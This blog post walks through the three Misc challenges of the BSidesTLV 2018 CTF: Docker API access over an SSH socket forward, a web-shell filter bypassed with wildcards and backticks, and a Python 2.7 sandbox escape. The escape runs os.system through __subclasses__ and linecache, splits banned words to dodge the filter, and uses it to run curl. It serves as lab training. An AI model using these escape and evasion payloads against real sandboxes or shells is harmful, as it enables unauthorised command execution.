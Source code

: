```yaml
---
layout: post
title: "BSidesTLV: 2018 CTF (Misc)"
date: 2018-10-24 18:53:07 +0000
last_modified_at: 2018-12-09 08:12:55 +0000
category: CTF
tags: [BSidesTLV]
comments: true
image:
  feature: bsidestlv.jpg
---
```


This post documents my attempt to complete [BSidesTLV: 2018 CTF (Misc)](https://www.vulnhub.com/entry/bsidestlv-2018-ctf,250/). If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

The 2018 BSidesTLV CTF competition brought together over 310 teams burning the midnight oil to crack our challenges in a bout that lasted for two weeks. You can now enjoy the same pain and suffering, using this easy-to-use, condensed VM that now hosts all our challenges in an easy to digest format. The CTF has five categories:

+ Web (10 challenges)
+ Reverse Engineering (3 challenges)
+ Misc (3 challenges)
  1. <a href="#{{ 'DockingStation' | downcase | replace: ' ', '-'}}">DockingStation</a>
  2. <a href="#{{ 'c1337Shell' | downcase | replace: ' ', '-'}}">c1337Shell</a>
  3. <a href="#{{ 'PySandbox-Insane' | downcase | replace: ' ', '-'}}">PySandbox-Insane</a>
+ Forensics (1 challenge)
+ Crypto (2 challenges)

What follows is my humble attempt of cracking the challenges in the **Misc** category.

## DockingStation

This is how the challenge looks like.

<a class="image-popup">
![c7de4a68.png](/assets/images/posts/bsidestlv-misc/c7de4a68.png)
</a>

After logging in, this is what I found.

<a class="image-popup">
![d59d61f1.png](/assets/images/posts/bsidestlv-misc/d59d61f1.png)
</a>

If I had to guess, I would say that's a Unix socket connected to a Docker. And since I've the SSH credentials, I can make use of SSH local port forwarding and connect to the Docker like so.

<a class="image-popup">
![3581904c.png](/assets/images/posts/bsidestlv-misc/3581904c.png)
</a>

Look Ma, got access to Docker [API](https://docs.docker.com/engine/api/v1.37/) without using Unix socket.

<a class="image-popup">
![b6f6570d.png](/assets/images/posts/bsidestlv-misc/b6f6570d.png)
</a>

The stopped container with the image `galf` is highly suspicious. On second look, notice the reverse of `galf` is `flag`? This must be it.

My attempts to start the container resulted in an error.

<a class="image-popup">
![c4f4c07b.png](/assets/images/posts/bsidestlv-misc/c4f4c07b.png)
</a>

I came across the command to export the entire container as a tarball after consulting the API.

<a class="image-popup">
![770aa59a.png](/assets/images/posts/bsidestlv-misc/770aa59a.png)
</a>

After extracting the files from the tarball, the flag is at `/home/flag_is_here/flag.txt`.

<a class="image-popup">
![d6da982b.png](/assets/images/posts/bsidestlv-misc/d6da982b.png)
</a>

The flag is `BSidesTLV{i_am_r34dy_t0_esc4p3_th3_d0ck3r!}`.

## c1337Shell

This is how the challenge looks like.

<a class="image-popup">
![f566bc99.png](/assets/images/posts/bsidestlv-misc/f566bc99.png)
</a>

Let's visit the challenge URL.

<a class="image-popup">
![cb794b70.png](/assets/images/posts/bsidestlv-misc/cb794b70.png)
</a>

Appears to be a web shell. Turns out that it doesn't accept alphanumerical characters and `$&|\'<>`.

Look what happens when I supply a bad character?

<a class="image-popup">
![6806a44f.png](/assets/images/posts/bsidestlv-misc/6806a44f.png)
</a>

Now look what happens when I supply the tilde `~` character?

<a class="image-popup">
![1d3306cd.png](/assets/images/posts/bsidestlv-misc/1d3306cd.png)
</a>

In `bash`, the tilde `~` character represents the home directory of the current user. I suspect "the other side" is `echo`ing out shell output, whatever "the other side" is.

In that case, I should be able to use shell wildcards. The wildcard `?` and `*` represents single character and zero-or-more characters respectively.

Using these two wildcards, I was able to map out where the flag is.

<a class="image-popup">
![5aa73479.png](/assets/images/posts/bsidestlv-misc/5aa73479.png)
</a>

The problem now is this—how the f\*\*k do I display the flag with `cat`? With backticks `` `...` `` (or command substitution) and wildcards of course!

We know `cat` is at `/bin/cat`. We can use `/???/???` to represent it. Of course, there are other directories and commands behind that pattern. But, when you surround it with backticks, the shell should execute the command and skip the rest of the non-executable. Let's give it a shot.

<a class="image-popup">
![177cc70b.png](/assets/images/posts/bsidestlv-misc/177cc70b.png)
</a>

The flag is:

```
BSidesTLV{1_l1k3_wildcards_&_r3g3x_but_h8_th3_cr34t0r}
```

## PySandbox-Insane

This is how the challenge looks like.

<a class="image-popup">
![00261ba8.png](/assets/images/posts/bsidestlv-misc/00261ba8.png)
</a>

The aim of this challenge is to escape the sandbox and run the following code.

```py
import os; os.system("curl secret/flag.txt")
```

That's all. No more no less.

How do we crack this challenge then? Remember Python's axiom? _Everything is an object_. CPython provides [special methods](https://docs.python.org/3/reference/datamodel.html#special-method-names) to get/set attributes from/in an object. Essentially, CPython allows shortcuts or syntactic sugar for a simple statement such as `import os`. Under the hood, it's all special methods and/or special attributes at work.

For example, let's say you want to assign the integer `1` to variable `a`. This is how you do it in Python 2.7.

```
>>> a = 1
>>> a
1
```

Or, you can do it this way.

```
>>> __builtins__.__setattr__("a", 1)
>>> a
1
```

Which is another way of saying, "I'm setting an attribute with a name of 'a' and value of 1 in the `__builtins__` module." `__builtins__` is a module (an object by the way) that provides direct access to all the 'built-in' identifiers of Python. Use `__builtins__.__dict__` to view all the attributes of this object.

Armed with this simple introduction, how do we run the above code? Again, the challenge has provided the much-needed hints.

<a class="image-popup">
![53fa6e73.png](/assets/images/posts/bsidestlv-misc/53fa6e73.png)
</a>

If you look at the subclasses that inherit from `object`, you'll find that `warningmessage` is one of them.

<a class="image-popup">
![a9b63ff6.png](/assets/images/posts/bsidestlv-misc/a9b63ff6.png)
</a>

Dig deeper into the [source code](https://github.com/python/cpython/blob/2.7/Lib/warnings.py) of the `warnings` module, you'll see that the `warnings` module imports the `linecache` module.

<a class="image-popup">
![42b3f2fc.png](/assets/images/posts/bsidestlv-misc/42b3f2fc.png)
</a>

Further down the code, you'll find the `warnings.WarningMessage` class.

<a class="image-popup">
![c84f1469.png](/assets/images/posts/bsidestlv-misc/c84f1469.png)
</a>

We can continue into the [source code](https://github.com/python/cpython/blob/2.7/Lib/linecache.py) of the `linecache` module, and you'll see that it imports the `os` module.

<a class="image-popup">
![118b740a.png](/assets/images/posts/bsidestlv-misc/118b740a.png)
</a>

In summary, we can expand the code above like this.

```
obj = __builtins__.__class__.__mro__[1]
sub = obj.__subclasses__
war = sub()[58]
ini = war.__init__
glo = ini.func_globals
lin = glo["linecache"]
dic = lin.__dict__
ops = dic["os"]
run = ops.["system"]
run("curl secret/flag.txt")
```

Of course, certain words are still banned from use by the firewall. Recall how Python performs `a = 1` under the hood? It's actually setting an attribute in the `__builtins__` object. With that in mind, we can make use of another trick to bypass the firewall—first break up the banned words and then combine them back through concatenation. Python uses the `+` operator for string concatenation. In fact, Python uses `__add__` method-wrapper internally to do that.

For example, I can represent "curl" with `"cu".__add__("rl")`.

Here's the convoluted version. **Warning**: lots of typing ahead.

```py
__builtins__.__setattr__("obj",__builtins__.__getattribute__("__class".__add__("__")).mro(  ).__getitem__(1))
__builtins__.__setattr__("sub",obj.__getattribute__(obj,"__sub".__add__("classes__")))
__builtins__.__setattr__("war",sub( ).__getitem__(58))
__builtins__.__setattr__("ini",war.__getattribute__(war,"__in".__add__("it__")))
__builtins__.__setattr__("glo",ini.__getattribute__("__glo".__add__("bals__")))
__builtins__.__setattr__("lin",glo.__getitem__("line".__add__("cache")))
__builtins__.__setattr__("dic",lin.__getattribute__("__dic".__add__("t__")))
__builtins__.__setattr__("ops",dic.__getitem__("o".__add__("s")))
__builtins__.__setattr__("run",ops.__getattribute__("sy".__add__("stem")))
run("cu".__add__("rl	sec").__add__("ret/fl").__add__("ag.txt"))
```

I've also replaced space (`0x20`) with tab (`0x09`) to bypass the firewall.

<a class="image-popup">
![89b5efca.png](/assets/images/posts/bsidestlv-misc/89b5efca.png)
</a>

The flag is `BSidesTLV{I_AM_The_Python_Master}`.
